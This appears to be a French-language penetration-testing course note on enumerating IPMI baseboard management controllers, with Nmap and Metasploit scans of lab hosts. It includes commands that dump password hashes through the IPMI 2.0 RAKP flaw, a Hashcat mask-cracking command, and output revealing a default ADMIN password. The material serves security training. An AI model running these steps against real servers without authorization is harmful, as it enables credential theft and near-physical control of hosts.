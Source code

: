 # Enumération des services

## IPMI

L'interface de gestion de plate-forme intelligente (IPMI) est un ensemble de spécifications normalisées pour les systèmes de gestion d'hôte basés sur le matériel utilisés pour la gestion et la surveillance du système. Il agit comme un sous-système autonome et fonctionne indépendamment du BIOS, du processeur, du micrologiciel et du système d'exploitation sous-jacent de l'hôte. IPMI offre aux administrateurs système la possibilité de gérer et de surveiller les systèmes même s'ils sont éteints ou dans un état qui ne répond pas. Il fonctionne à l'aide d'une connexion réseau directe au matériel du système et ne nécessite pas d'accès au système d'exploitation via un shell de connexion. IPMI peut également être utilisé pour les mises à niveau à distance des systèmes sans nécessiter d'accès physique à l'hôte cible. IPMI est généralement utilisé de trois manières:

+ Avant le démarrage du système d'exploitation pour modifier les paramètres du BIOS
+ Lorsque l'hôte est complètement éteint
+ Accès à un hôte après une panne du système

Lorsqu'il n'est pas utilisé pour ces tâches, IPMI peut surveiller une gamme de choses différentes telles que la température du système, la tension, l'état du ventilateur et les alimentations. Il peut également être utilisé pour interroger les informations d'inventaire, consulter les journaux du matériel et alerter à l'aide de SNMP. Le système hôte peut être mis hors tension, mais le module IPMI nécessite une source d'alimentation et une connexion LAN pour fonctionner correctement.

Le protocole IPMI a été publié pour la première fois par Intel en 1998 et est désormais pris en charge par plus de 200 fournisseurs de systèmes, dont Cisco, Dell, HP, Supermicro, Intel, etc. Les systèmes utilisant IPMI version 2.0 peuvent être administrés via série sur LAN, ce qui donne aux administrateurs système la possibilité de visualiser la sortie de la console série dans la bande. Pour fonctionner, IPMI nécessite les composants suivants:

+ Contrôleur de gestion de la carte de base (BMC) - Un microcontrôleur et un composant essentiel d'un IPMI
+ Intelligent Chassis Management Bus (ICMB) - Une interface qui permet la communication d'un châssis à un autre
+ Intelligent Platform Management Bus (IPMB) - étend le BMC
+ Mémoire IPMI - stocke des éléments tels que le journal des événements système, les données de stockage du référentiel, etc.
+ Interfaces de communication - interfaces système locales, interfaces série et LAN, bus de gestion ICMB et PCI

### Empreinte du service
IPMI communique sur le port 623 UDP. Les systèmes qui utilisent le protocole IPMI sont appelés Baseboard Management Controllers (BMC). Les BMC sont généralement implémentés en tant que systèmes ARM embarqués exécutant Linux et connectés directement à la carte mère de l'hôte. Les BMC sont intégrés à de nombreuses cartes mères, mais peuvent également être ajoutés à un système en tant que carte PCI. La plupart des serveurs sont livrés avec un BMC ou prennent en charge l'ajout d'un BMC. Les BMC les plus courants que nous voyons souvent lors des tests de pénétration internes sont HP iLO, Dell DRAC et Supermicro IPMI. Si nous pouvions accéder à un BMC lors d'une évaluation, nous obtiendrions un accès complet à la carte mère hôte et pourrions surveiller, redémarrer, éteindre ou même réinstaller le système d'exploitation hôte. L'accès à un BMC équivaut presque à un accès physique à un système. De nombreux BMC (y compris HP iLO, Dell DRAC et Supermicro IPMI) exposent une console de gestion basée sur le Web, une sorte de protocole d'accès à distance en ligne de commande tel que Telnet ou SSH, et le port 623 UDP, qui, encore une fois, est pour le Protocole réseau IPMI. Vous trouverez ci-dessous un exemple d'analyse Nmap utilisant le script Nmap ipmi-version NSE pour effectuer l'empreinte du service.

#### Scan Nnmap
```
dsgsec@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

#### Metasploit Version Scan
```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Paramètres dangereux
Si les informations d'identification par défaut ne fonctionnent pas pour accéder à un BMC, nous pouvons nous tourner vers une faille du protocole RAKP dans IPMI 2.0. Pendant le processus d'authentification, le serveur envoie un hachage SHA1 ou MD5 salé du mot de passe de l'utilisateur au client avant que l'authentification n'ait lieu. Cela peut être exploité pour obtenir le hachage du mot de passe pour TOUT compte utilisateur valide sur le BMC. Ces hachages de mot de passe peuvent ensuite être déchiffrés hors ligne à l'aide d'une attaque par dictionnaire utilisant le mode Hashcat 7300. Dans le cas où un HP iLO utilise un mot de passe par défaut, nous pouvons utiliser cette commande d'attaque de masque Hashcat hashcat -m 7300 ipmi.txt -a 3 ?1 ?1?1?1?1?1?1?1 -1 ?d?u qui essaie toutes les combinaisons de lettres majuscules et de chiffres pour un mot de passe à huit caractères.

Il n'y a pas de "résolution" directe à ce problème car la faille est un composant critique de la spécification IPMI. Les clients peuvent opter pour des mots de passe très longs et difficiles à déchiffrer ou implémenter des règles de segmentation du réseau pour restreindre l'accès direct aux BMC. Il est important de ne pas négliger IPMI lors des tests d'intrusion internes (nous le voyons lors de la plupart des évaluations) car non seulement nous pouvons souvent accéder à la console Web BMC, ce qui est une découverte à haut risque, mais nous avons vu des environnements où un unique ( mais craquable) un mot de passe est défini qui est ensuite réutilisé sur d'autres systèmes. Lors d'un de ces tests de pénétration, nous avons obtenu un hachage IPMI, l'avons craqué hors ligne à l'aide de Hashcat, et avons pu accéder en SSH à de nombreux serveurs critiques de l'environnement en tant qu'utilisateur root et accéder aux consoles de gestion Web pour divers outils de surveillance du réseau.

Pour récupérer les hachages IPMI, nous pouvons utiliser le module Metasploit IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval.

#### Metasploit Dumping Hashes
```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Ici, nous pouvons voir que nous avons réussi à obtenir le hachage du mot de passe pour l'utilisateur ADMIN, et l'outil a pu le déchiffrer rapidement pour révéler ce qui semble être un mot de passe par défaut ADMIN. À partir de là, nous pourrions tenter de nous connecter au BMC ou, si le mot de passe était quelque chose de plus unique, vérifier la réutilisation du mot de passe sur d'autres systèmes. IPMI est très courant dans les environnements réseau, car les administrateurs système doivent pouvoir accéder aux serveurs à distance en cas de panne ou effectuer certaines tâches de maintenance qu'ils auraient traditionnellement dû être physiquement devant le serveur pour effectuer. Cette facilité d'administration s'accompagne du risque d'exposer les hachages de mot de passe à quiconque sur le réseau et peut entraîner un accès non autorisé, une interruption du système et même l'exécution de code à distance. La vérification de l'IPMI devrait faire partie de notre manuel de test d'intrusion interne pour tout environnement que nous évaluons.
